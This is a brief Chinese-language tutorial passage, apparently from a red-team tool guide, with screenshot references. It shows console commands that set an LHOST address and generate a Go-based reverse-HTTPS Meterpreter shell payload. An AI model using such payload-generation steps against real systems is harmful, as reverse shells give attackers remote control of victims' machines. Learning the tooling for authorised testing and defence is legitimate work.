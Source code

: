 ![image-20230123162842390](../../images//image-20230123162842390.png)

设置好LHOST选项后通过generate生成shell(其他选项可依照需要)。

```
[go/meterpreter/rev_https>>]: set lhost 172.16.0.2
[go/meterpreter/rev_https>>]: generate
```

![image-20230123163142457](../../images//image-20230123163142457.png)
